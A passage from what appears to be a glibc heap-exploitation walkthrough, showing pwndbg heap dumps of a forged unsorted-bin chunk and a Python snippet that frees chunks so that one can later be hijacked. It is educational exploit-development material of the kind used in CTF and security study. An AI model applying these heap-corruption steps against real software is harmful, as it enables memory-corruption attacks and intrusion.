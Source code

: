 Now, if we look at our `fake chunk` in gdb, we see that it contains the correct values needed for a fake `unsorted bin` entry:
```
pwndbg> vis 0

0x55c990a81000	0x0000000000000000	0x0000000000000291	................
0x55c990a81010	0x0000000000010001	0x0007000000000000	................
0x55c990a81020	0x0000000000000000	0x0007000000010001	................
0x55c990a81030	0x0000000000000000	0x0000000000000000	................
0x55c990a81040	0x0000000000070000	0x0000000000000000	................
0x55c990a81050	0x0000000000000000	0x0000000000000000	................
0x55c990a81060	0x0000000000000000	0x0000000000000000	................
0x55c990a81070	0x0000000000000000	0x0000000000000000	................
0x55c990a81080	0x0000000000000000	0x0000000000010001	................
0x55c990a81090	0x000055c990a82b90	0x000055c990a82df0	.+...U...-...U..
0x55c990a810a0	0x0000000000000000	0x0000000000000000	................
0x55c990a810b0	0x0000000000000000	0x0000000000000000	................

[...]

pwndbg> dq 0x55c990a81080+0x10000
000055c990a91080     0000000000010000 0000000000000020
000055c990a91090     0000000000000000 0000000000000000
000055c990a910a0     0000000000000000 0000000000000000

```

Finally, let's create our `unsorted bin list`:
```python
###############
# Free chunks #
###############

free(unsorted_f1) # Start of unsorted bin

free(unsorted_f3) # This will be hijacked for later

free(unsorted_f2) # End of unsorted bin
```

And now, our heap layout will look like the following:
```
pwndbg> vis 100

[...]

0x560836be6af0	0x3131313131313131	0x0000000000000041	11111111A.......
0x560836be6b00	0x00007f386c3fed58	0x00007f386c3fed00	X.?l8.....?l8... <-- tcachebins[0xe0][0/1]
0x560836be6b10	0x3131313131313131	0x3131313131313131	1111111111111111
0x560836be6b20	0x3131313131313131	0x3131313131313131	1111111111111111
0x560836be6b30	0x3131313131313131	0x0000000000000061	11111111a.......
0x560836be6b40	0x00007f386c3fed58	0x00007f386c3fed00	X.?l8.....?l8...
0x560836be6b50	0x3131313131313131	0x3131313131313131	1111111111111111
0x560836be6b60	0x3131313131313131	0x3131313131313131	1111111111111111
0x560836be6b70	0x3131313131313131	0x3131313131313131	1111111111111111
0x560836be6b80	0x3131313131313131	0x0000000000000021	11111111!.......
0x560836be6b90	0x0000000560836be6	0x0000000000000111	.k.`............ <-- tcachebins[0x20][0/1], unsortedbin[all][2]
0x560836be6ba0	0x00007f386c3fed00	0x0000560836be6f20	..?l8... o.6.V..
0x560836be6bb0	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x560836be6bc0	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x560836be6bd0	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x560836be6be0	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x560836be6bf0	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x560836be6c00	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
```